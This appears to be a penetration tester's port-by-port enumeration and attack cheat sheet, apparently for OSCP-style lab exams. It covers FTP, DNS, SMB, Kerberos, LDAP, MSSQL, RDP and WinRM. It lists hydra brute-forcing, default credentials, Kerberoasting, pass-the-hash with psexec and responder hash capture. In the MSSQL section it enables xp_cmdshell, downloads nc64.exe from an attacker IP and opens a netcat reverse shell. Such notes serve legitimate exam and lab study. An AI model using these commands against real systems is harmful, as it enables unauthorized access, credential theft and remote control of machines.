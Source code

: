## Enumeration Checklist

<set your variables>
target=
user=
pass=
ip=
domain=

# 21 FTP

hydra -l <user list> -P <password list> ftp://$ip

common creds patterns

admin/admin
root/root
password/password
username/username


#53 DNS

dig @$ip version.bind CHAOS TXT
dig axfr @$ip $domain     
dnsenum $domain

#135 RCP

rpcclient -U '' -N $ip
rpcclient -U '$user%$pass' $ip 

> enumdomusers      #check the users on the DC
> queryuser <username>  #query the details of the user
> querydispinfo 

nmblookup -A $ip

＃445 SMB
<Without Pass>

enum4linux -a $ip
impacket-lookupsid '$domain'/'$user'@$domain -no-pass

smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares
smbclient -N -L //[ip]
smbclient //[ip]/[share] -N   #Enumerate Files


<With Pass>
lookupsid.py  $domain/$user:$pass@$domain

lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users

psexec.py -hashes  :<ntlm hash>    $user@$ip

smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r

smbclient //$ip/C$ -U '$user%$pass' -c 'dir'

netexec smb [host/ip] -u [user] -p [pass] --shares

netexec smb [host/ip] -u guest -p '' --shares

smbclient //[ip]/[share] -U [username] [password]

netexec smb -u [user] -p [pass] -M spider_plus

smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth

manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]


#88 Kerberoas

nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip

kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid

impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200 

impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100

kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100


#389 LDAP

<Without Pass>
ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

ldapsearch -x -H ldap://$ip -s base namingcontexts

impacket-lookupsid '$domain/guest'@$domain -no-pass

<With Pass>
lookupsid.py  $domain/$user:$pass@$domain
ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts

bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip
neo4j console                #config file; /usr/share/neo4j/conf
./Bloodhound  --no-sandbox


#1433 MSSQL

impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login
impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login

SELECT @@version   #Current MSSQL Version	
SELECT DB_NAME()   #Current Database
SELECT name FROM sys.databases;  #show DBs	
enum_db            #show DBs

select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables  

#cmd command	

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell ' whoami /priv '

xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell
xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"
xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"
	
hash capture

xp_dirtree \\192.168.1.210\shared
responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

enum_impersonate  #impersonate
EXECUTE AS LOGIN = 'username to impersonate'  #impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


#3389 RDP

xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard

#5985 WINRM

evil-winrm -i $ip -u $user -p $pass
